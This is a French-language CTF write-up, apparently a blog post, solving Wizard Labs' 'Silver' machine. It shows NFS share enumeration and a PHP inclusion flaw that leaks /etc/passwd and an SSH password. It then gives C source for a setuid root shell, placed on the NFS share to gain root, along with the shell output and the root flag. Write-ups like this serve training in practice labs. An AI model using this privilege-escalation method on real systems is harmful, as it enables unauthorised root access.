 ```yaml
---
title: Solution du CTF Silver de Wizard Labs
tags: [CTF, WizardLabs]
---
```


Bronze
------

*Silver* est un CTF de Wizard Labs annoncé avec une difficulté de 4/10.  

Premier élément qui fait tilter tout habitué des CTFs : la présence d'un partage NFS sur la machine :  

```
$ showmount -a 10.1.1.36
All mount points on 10.1.1.36:
10.28.12.6:/home/silver/nfs
```

On monte ce partage avec la commande *sudo mount 10.1.1.36:/home/silver/nfs /mnt/* mais il est vide.  

On se doute toutefois qu'on aura à y placer un binaire setuid plus tard :p   

Sur le site web de la box, [Wapiti](http://wapiti.sourceforge.net/) trouve différentes failles dans le paramètre *language* d'une même page (c'est la même faille mais découverte par trois biais différents) :  

* Divulgation de fichier si la valeur est */etc/passwd*
* Exécution de commande via un wrapper PHP (voir capture d'écran plus loin)
* Timeout si la valeur est *http://www.google.com/*

![Wizard Labs CTF Silver include() vulnerability Wapiti report](/assets/img/wizard-labs/silver_rce.png)

Autant dire qu'on a affaire à une faille d'inclusion PHP et que l'inclusion distante est activée.  

L'exploitation de cette vulnérabilité peut avoir bien des scénarios différents mais en fait si on lit */etc/passwd* on remarque une ligne explicite à la fin du fichier :  

> ssh password for silver: i'msilver

Gold
----

On obtient donc l'accès sur cette machine 32bits. On écrit le code suivant que l'on compilera avec *-m32* :  

```c
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void) {
        setreuid(0, 0);
        system("/bin/bash");
        return 0;
}
```

On le copie ensuite sur le partage NFS avec les droits root + setuid et c'est finit :  

```
silver@silver:~/nfs$ ls -l
total 652
-rwsr-xr-x 1 root root 664956 Feb 23 06:37 devloop
silver@silver:~/nfs$ ./devloop
root@silver:~/nfs# id
uid=0(root) gid=1000(silver) groups=1000(silver),4(adm),24(cdrom),30(dip),46(plugdev),109(lpadmin),125(sambashare)
root@silver:~/nfs# cd /root/
root@silver:/root# cat root.txt
3f3d93725cebd44cf7bb1fb327e8a0b1
```


*Published November 17 2020 at 14:08*
